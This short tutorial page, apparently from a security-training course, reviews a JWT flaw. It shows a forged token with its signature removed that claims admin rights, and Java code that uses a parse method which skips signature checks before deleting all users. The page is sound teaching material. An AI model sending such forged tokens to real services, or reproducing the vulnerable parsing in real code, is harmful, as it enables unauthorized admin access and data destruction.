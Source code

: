 == Code review (2)

Same as before but now we are only removing the signature part, leaving the algorithm as is.

[source]
----
eyJhbGciOiJIUzI1NiJ9.ew0KICAiYWRtaW4iIDogdHJ1ZSwNCiAgImlhdCIgOiAxNTE2MjM5MDIyLA0KICAic3ViIiA6ICIxMjM0NTY3ODkwIiwNCiAgInVzZXIiIDogIkpvaG4gRG9lIg0KfQ.

{
  "alg" : "HS256"
},
{
  "admin" : true,
  "iat" : 1516239022,
  "sub" : "1234567890",
  "user" : "John Doe"
}
----

Using the following `parse` method we are still able to skip the signature check.

[source%linenums, java]
----
try {
   Jwt jwt = Jwts.parser().setSigningKey(JWT_PASSWORD).parse(accessToken);
   Claims claims = (Claims) jwt.getBody();
   String user = (String) claims.get("user");
   boolean isAdmin = Boolean.valueOf((String) claims.get("admin"));
   if (isAdmin) {
     removeAllUsers();
   } else {
     log.error("You are not an admin user");
   }
} catch (JwtException e) {
  throw new InvalidTokenException(e);
}
----
